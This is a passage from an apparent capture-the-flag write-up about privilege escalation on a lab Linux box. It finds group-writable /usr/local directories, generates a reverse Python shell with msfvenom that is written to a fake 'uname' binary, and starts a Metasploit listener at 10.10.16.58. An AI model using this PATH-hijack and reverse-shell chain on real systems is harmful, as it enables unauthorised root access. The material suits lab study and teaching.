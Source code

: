 So we need one of the path directories that allow group writes and belong to any of those groups for us to hijack the call to uname.

```
ls -alh /usr
total 56K
drwxr-xr-x 10 root root  4.0K Apr 19 04:11 .
drwxr-xr-x 22 root root  4.0K Apr 19 07:31 ..
drwxr-xr-x  2 root root   20K Apr 24 13:13 bin
drwxr-xr-x  2 root root  4.0K Jun  3  2018 games
drwxr-xr-x  2 root root  4.0K Apr 19 04:21 include
drwxr-xr-x 41 root root  4.0K Apr 24 13:13 lib
drwxrwsr-x 10 root staff 4.0K Apr 19 04:11 local
drwxr-xr-x  2 root root  4.0K Apr 19 07:31 sbin
drwxr-xr-x 97 root root  4.0K Apr 24 13:13 share
drwxr-xr-x  2 root root  4.0K Jun  3  2018 src

ls -alh /usr/local
total 64K
drwxrwsr-x 10 root staff 4.0K Apr 19 04:11 .
drwxr-xr-x 10 root root  4.0K Apr 19 04:11 ..
drwx-wsr-x  2 root staff  20K Apr 19 04:11 bin
drwxrwsr-x  2 root staff 4.0K Apr 19 04:11 etc
drwxrwsr-x  2 root staff 4.0K Apr 19 04:11 games
drwxrwsr-x  2 root staff 4.0K Apr 19 04:11 include
drwxrwsr-x  4 root staff 4.0K Apr 24 13:13 lib
lrwxrwxrwx  1 root staff    9 Apr 19 04:11 man -> share/man
drwx-wsr-x  2 root staff  12K Apr 19 04:11 sbin
drwxrwsr-x  7 root staff 4.0K Apr 19 04:30 share
drwxrwsr-x  2 root staff 4.0K Apr 19 04:11 src
```

Both /usr/local/bin and /usr/local/sbin allow the staff group to write (but not read strangely enough). We're in business!

Let's start with generating a reverse shell to use as a payload. Initially I had issues with executing a slightly different payload, using a compiled binary payload, which is why I switched to the Python variant of the reverse meterpreter payload.

```
msfvenom -p cmd/unix/reverse_python LHOST=10.10.16.58 LPORT=4444 > uname
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 533 bytes
```

Next I needed to setup a listener in Metasploit to catch the incoming reverse shell connection.

```
msfconsole
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload cmd/unix/reverse_python
payload => cmd/unix/reverse_python
msf5 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/handler) > set LHOST 10.10.16.58
LHOST => 10.10.16.58
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.58:4444
```
